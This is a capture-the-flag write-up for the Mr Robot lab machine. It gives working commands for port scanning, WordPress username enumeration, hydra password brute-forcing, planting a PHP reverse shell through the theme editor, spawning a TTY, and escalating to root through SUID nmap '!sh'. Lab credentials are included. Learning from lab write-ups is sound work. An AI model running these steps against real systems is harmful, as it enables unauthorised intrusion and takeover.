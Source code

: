 # Mr Robot CTF

## NMAP
```
$ sudo nmap -sS -p- 10.10.211.77 
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 05:05 EDT
Nmap scan report for 10.10.211.77
Host is up (0.046s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 121.48 seconds
                                                                   
```

## Webste

### Robots.txt and Sitemap.xml

There is no sitemap xml aparently. There is however a robots.txt:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The file key-1-of-3.txt contains the first key.

In the robots.txt we can also find a dictionary file. 


<img src="images/website.png">

Looking at this main page js we find a few directories

<img src="images/js.png">


They are word-press templates and default pages. Knowing this we find wordpress login under:

```http://10.10.211.77/wp-login.php```


We also have a lost your password page: ```http://10.10.211.77/wp-login.php?action=lostpassword```

<img src="images/lostyourPasswd.png">

If we input a bad username the page will give return us an error. We can use this for username enumeration maybe:

<img src="images/passsword-recovery.png">


## Username

I was gonna brute force this but i just tried elliot and it worked.

<img src="images/eliot.png">


## Brute force credentials

Post as cUrl

```curl 'http://10.10.211.77/wp-login.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.10.211.77' -H 'Connection: keep-alive' -H 'Referer: http://10.10.211.77/wp-login.php' -H 'Cookie: s_fid=7621D0D6ECBFA3AE-328EB4611A66CA68; s_nr=1697620598822; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'log=elliot&pwd=passwprd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.211.77%2Fwp-admin%2F&testcookie=1'```



```
hydra -l elliot -P /home/kali/Desktop/rockyou.txt 10.10.211.77 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.211.77%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " -v 
```

So this was taking to long so instead i used the dictionary we found from the robots.txt
The dictionary had a lot of repeated lines

```
└─$ python3 here.py
number of lines 858160
number of unique lines 11451
```

The python3 script on the repo can clean the repeated lines

```
hydra -l elliot -P /home/kali/Desktop/MrRobotCTF/cleanedFsocity.dic 10.10.61.151 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.61.151%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username " -v -t 30

[80][http-post-form] host: 10.10.61.151   login: elliot   password: ER28-0652
```

The password is ER28-0652

## Reverse shell

<img src="images/blog.png">

In order to add a PHP reverse shell in an wordpress blog we do the following


Click on apperance and then editor

<img src="images/rev-1.png">

Then select one of the php pages there to contain a php reverse shell to your machine. I am using the pentest monkey reverse shell

<img src="images/rev-2.png">

Then just click update file, start a netcat listener on that same port and go to the URL.

<img src="images/rev-3.png">


## Privesc 

First let's get a tty shell with pyhon

```$ python -c 'import pty; pty.spawn("/bin/bash")'```

In the robot home directory we can see a flag and an MD5 Hash file. 

```robot:c3fcd3d76192e4007dfb496cca67e13b```

<img src="images/priv-1.png">

the password is ***abcdefghijklmnopqrstuvwxyz***

switch user into robot.

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```


To get root i got linpeas on to the machine.

```
====================================( Interesting Files )=====================================
[+] SUID  
/usr/local/bin/nmap
```

We got nmap with SUID


Get root with Nmap

```
robot@linux:/tmp$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# 
```